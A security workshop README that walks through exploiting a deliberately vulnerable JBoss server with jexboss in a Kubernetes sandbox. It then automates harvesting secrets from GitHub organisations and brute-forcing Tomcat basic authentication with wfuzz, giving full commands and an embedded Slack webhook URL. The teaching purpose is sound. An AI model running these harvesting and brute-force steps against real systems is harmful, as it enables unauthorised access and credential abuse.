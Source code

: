 # Section-4

## Table of Contents
<!-- TOC -->

- [Section-4](#section-4)
    - [Table of Contents](#table-of-contents)
    - [Overview](#overview)
    - [Stand up vulnerable and non-vulnerable JBOSS servers](#stand-up-vulnerable-and-non-vulnerable-jboss-servers)
    - [Stand up Attack Host with exploit tools](#stand-up-attack-host-with-exploit-tools)
    - [Using Attack Host to exploit](#using-attack-host-to-exploit)
    - [Destroying the environment](#destroying-the-environment)
    - [Introducing Target, Attack Surface and Automated Testing Methodology](#introducing-target-attack-surface-and-automated-testing-methodology)

<!-- /TOC -->

## Overview
In this section, we will
1. Start a vulnerable and a non-vulnerable JBOSS server in our remote K8S cluster on GKE.
2. Start an attack host (with our exploit tools installed) in our remote K8S cluster on GKE.
3. Attack both the JBOSS servers from the attack host.
4. Destroy the JBOSS servers and the attack host.
5. Introduce the target, the attack surface exposed by that target and our automated testing methodology we will be using to attack that target.
6. Finally end the workshop by demo'ing the entire automation described above by issuing a single command from Slack using [Kubebot](https://github.com/anshumanbh/kubebot).


## Stand up vulnerable and non-vulnerable JBOSS servers
1. Finding a pre-built docker image
    * On your local machine type `docker search jboss`
    * We'll be using `tutum/jboss`
    * To grab the latest version type `docker pull tutum/jboss:latest`
    * To grab a vulnerable version for testing type `docker pull tutum/jboss:as6` The designation of `:as6` grabs JBOSS version 6 as referenced [here](https://hub.docker.com/r/tutum/jboss/)

2. Starting the servers
    * Let's start them up and expose the proper ports.  To do that, type the following commands:
        * `kubectl run jboss-latest --image=tutum/jboss:latest --port=8080`
        * `kubectl run vuln-jboss --image=tutum/jboss:as6 --port=8080`


## Stand up Attack Host with exploit tools
1. From the `attackhost` directory, type
    * `docker build -t attackhost .`
2. Start the attackhost deployment by typing - `kubectl apply -f attack-host.yaml`.


## Using Attack Host to exploit
1. Retrieve the name of the attackhost pod by running `kubectl get pods` and searching for the attackhost pod name.
2. SSH into the attackhost container by typing - `kubectl exec -it <pod-name> bash`.
3. Run `jexboss` by typing - `python jexboss.py -u <URL>` for both the vulnerable and non-vulnerable JBOSS servers.The URL can be found by navigating to the pods section, clicking on the pod and obtaining the ip address.  the URL will look something like this: `http://172.17.0.4:8080 `
4. Notice the different output and the ease of standing up sandboxed environments for security testing.
5. Exit out of the attack host by pressing `Ctrl+P+Q`.


## Destroying the environment
1. Delete all the deployments by typing - `kubectl delete deployments --all`
2. Delete all the pods by typing - `kubectl delete pods --all`


## Introducing Target, Attack Surface and Automated Testing Methodology
1. Domain:
    * Domain points to an Apache Tomcat server.
    * Domain has a github org with members.
2. We will scan all the repositories of this org and all the repositories of the org's members using the tool [git-all-secrets](https://github.com/anshumanbh/git-all-secrets). Results will be stored in a Google BigQuery table.
3. We will then run [wfuzz](https://github.com/xmendez/wfuzz) to do a focussed bruteforcing for Apache Tomcat endpoints on that domain. Results will be stored in a Google BigQuery table as well.
4. We will then use the secrets obtained from `git-all-secrets` and try to bruteforce the basic authentication mechanism of the Apache Tomcat endpoints obtained from `wfuzz`.
5. If there is a match, we will get back results in Slack via an incoming webhook.
6. Demo of doing all this auto-magically.

### Running locally
1. [Running git-all-secrets and wfuzz locally and converting the results to store in BigQuery](data-converter/README.md)
2. [Running wfuzz basic authentication bruteforcer combining the data from both the tools](wfuzz-basicauth-bruteforcer/README.md)

### Running on a local K8S cluster (Minikube)
Running the tools repo-supervisor and wfuzz
1. Replace the directory path `/path/where/gac/is/stored/` in the command below to the path where GAC credentials file is stored locally on your workstation. Replace the `PROJECTID` as well. Replace the `gacfilename` with the name of the GAC credentials file.

`docker run -it -v /path/where/gac/is/stored/:/tmp/data/ abhartiya/utils_bqps:v1 -project <PROJECTID> -gac /tmp/data/<gacfilename> -wfdataset wfuzzds -wftable wfuzz_tomcat_test -rsdataset reposupervisords -rstable reposupervisor_test`

The above command will mount the local directory where you stored your GAC credentials file to `/tmp/data` inside the container. Once, it does that, it will run the `abhartiya/utils_bqps:v1` container with the arguments - `-project defcon-workshop -gac /tmp/data/<gacfilename> -wfdataset wfuzzds -wftable wfuzz_tomcat_test -rsdataset reposupervisords -rstable reposupervisor_test`. Once the container runs, it will re-create the dataset and tables.

2. `kubectl get secrets` - Verify the secret `googlesecret` created earlier still exists.
3. `cd` back into the `section-4` directory.
4. Make sure the environment values in the `deployments/tools-bq-pod.yaml` deployment file are accurate.
5. Start the pods by typing `kubectl apply -f deployments/tools-bq-pod.yaml`.

Running the wfuzz basic authN bruteforcer
1. Make sure the environment values in the `deployments/tools-wfbrute-pod.yaml` deployment file are accurate.
2. Start the pod by typing `kubectl apply -f deployments/tools-wfbrute-pod.yaml`

### Cleanup
1. `kubectl delete pods --all`
2. `kubectl delete secrets --all`
3. Delete the BQ datasets and tables
    * `bq rm reposupervisords.reposupervisor_test`
    * `bq rm wfuzzds.wfuzz_tomcat_test`
    * `bq rm -r -f reposupervisords`
    * `bq rm -r -f wfuzzds`
4. `minikube delete`
5. Don't forget to shutdown your GCP project if you don't plan to use it anymore.


### Demo - Sending a request from Kubebot for a target company
1. Initiate a request from Slack by typing a command like `/runautomation wfuzzbasicauthbrute|defcon.kubebot.io`.
2. API server receives the request.
3. API server drops a message in the queue to start `wfuzzbasicauthbrute` tool.
4. The message is picked up by a subscription worker from the queue.
5. Subscription worker starts 2 GoRoutines:
    * First GoRoutine starts [gitallsecrets](https://github.com/anshumanbh/git-all-secrets) with the options `-token <> -org kubebot -toolName repo-supervisor -output /tmp/results/results.json`. As soon as this is finished, the results are uploaded to BigQuery in the table `reposupervisor_test` under the dataset `reposupervisords` by the help of a utility [converttobq](https://hub.docker.com/r/abhartiya/utils_converttobq/).
    * Second GoRoutine starts [wfuzz](https://github.com/anshumanbh/wfuzz) with the options `-w /data/SecLists/Discovery/Web_Content/tomcat.txt --hc 404,429,400 -o csv http://defcon.kubebot.io/FUZZ/ /tmp/results/results.csv`. As soon as this is finished, the results are uploaded to BigQuery in the table `wfuzz_tomcat_test` under the dataset `wfuzzds` by the help of a utility [converttobq](https://hub.docker.com/r/abhartiya/utils_converttobq/).
    * All the above jobs are performed inside Docker containers and they are destroyed once they are all completed.
6. After the tools finish running above, the subscription worker starts another GoRoutine:
    * This GoRoutine starts a utility [wfuzzbasicauthbrute](https://hub.docker.com/r/abhartiya/utils_wfuzzbasicauthbrute/) with the opttions `-target defcon.kubebot.io -slackHook https://hooks.slack.com/services/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`.
    * This utility basically fetches all the secrets obtained from the `reposupervisor_test` table and stores it in a file. It then fetches all the endpoints obtained from the table `wfuzz_tomcat_test`.
    * For each endpoint retrieved above, the utility does a bruteforce attack against the basic authentication mechanism with all the secrets retrieved above against the URL `http://TARGET/ENDPOINT`. This is done by using the tool [wfuzz](https://github.com/xmendez/wfuzz) with the options `./wfuzz.py -w <all-the-secrets-file> -o csv --basic "admin:FUZZ" --sc 200,403 http://TARGET/ENDPOINT`
    * Finally, for each response with a `200` or `403` status, indicating that the secret worked against that endpoint, the results are sent back to Slack via the incoming Slack webhook.
